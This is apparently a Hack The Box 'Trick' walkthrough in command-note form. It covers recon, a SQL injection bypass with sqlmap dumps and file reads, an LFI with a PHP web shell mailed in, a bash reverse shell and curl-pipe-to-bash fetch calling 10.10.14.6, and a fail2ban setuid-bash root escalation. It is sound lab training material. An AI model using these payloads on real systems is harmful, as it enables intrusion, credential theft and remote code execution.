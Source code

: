 # 🧙 HTB: Trick – Walkthrough Command Notes

---

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.166
nmap -p 22,25,53,80 -sCV 10.10.11.166
```

### DNS Recon
```bash
dig +noall +answer @10.10.11.166 trick.htb
dig +noall +answer @10.10.11.166 -x 10.10.11.166
dig axfr trick.htb @10.10.11.166
```

### Subdomain Fuzz
```bash
wfuzz -u http://10.10.11.166 -H "Host: FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480

# Looking for preprod-* subdomains:
wfuzz -u http://10.10.11.166 -H "Host: preprod-FUZZ.trick.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 5480
```

---

## 📨 SMTP Enumeration

### Manual
```bash
telnet 10.10.11.166 25
VRFY root
VRFY michael
```

### Automated
```bash
smtp-user-enum -m VRFY -U /usr/share/seclists/Usernames/cirt-default-usernames.txt -t 10.10.11.166
```

---

## 📂 Web Enumeration

### Feroxbuster
```bash
feroxbuster -u http://trick.htb -x php
```

---

## 💉 Auth Bypass & SQL Injection

### SQL Bypass Payload
```sql
username=' OR 1=1-- -
```

### sqlmap Usage
```bash
# Basic
sqlmap -r login.req --batch --technique=B --level 5

# Dump user table
sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump

# File Read
sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd
sqlmap -r login.req --batch --threads 10 --file-read=/etc/nginx/sites-enabled/default
```

---

## 🌐 preprod-marketing.trick.htb - LFI

### Basic LFI Payload
```http
?page=....//....//....//....//etc/passwd
```

### Mail Poisoning via PHP Include
```bash
swaks --to michael --from attacker@htb.local \
--header "Subject: trick" --body "<?php system($_REQUEST['cmd']); ?>" \
--server 10.10.11.166
```

Then access:
```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//var/mail/michael&cmd=id
```

---

## 🐚 Reverse Shell (via mail or logs)

### Bash Reverse Shell Payload
```bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Send via curl
```bash
swaks --to michael --from attacker@htb \
--body "<?php system('curl http://10.10.14.6/shell | bash'); ?>" \
--server 10.10.11.166
```

### Listener
```bash
nc -lnvp 443
```

---

## 🔐 SSH Access as michael

### Save Private Key
Paste into `~/keys/trick-michael`, then:
```bash
chmod 600 ~/keys/trick-michael
ssh -i ~/keys/trick-michael michael@trick.htb
```

---

## 🛡️ PrivEsc: fail2ban Exploit

### Enumerate fail2ban Config
```bash
sudo -l
cat /etc/fail2ban/jail.conf
cat /etc/fail2ban/action.d/iptables-multiport.conf
```

### Overwrite Action
Edit `/etc/fail2ban/action.d/iptables-multiport.conf`:
```bash
actionban = cp /bin/bash /tmp/rootbash; chmod 4777 /tmp/rootbash
```

### Restart fail2ban
```bash
sudo /etc/init.d/fail2ban restart
```

### Trigger Ban from Attacker Box
```bash
crackmapexec ssh trick.htb -u user -p /usr/share/wordlists/rockyou.txt
```

### Root Shell via SetUID Bash
```bash
/tmp/rootbash -p
id
```

---

## 🏁 Flags

```bash
# As michael
cat ~/user.txt

# As root
cat /root/root.txt
```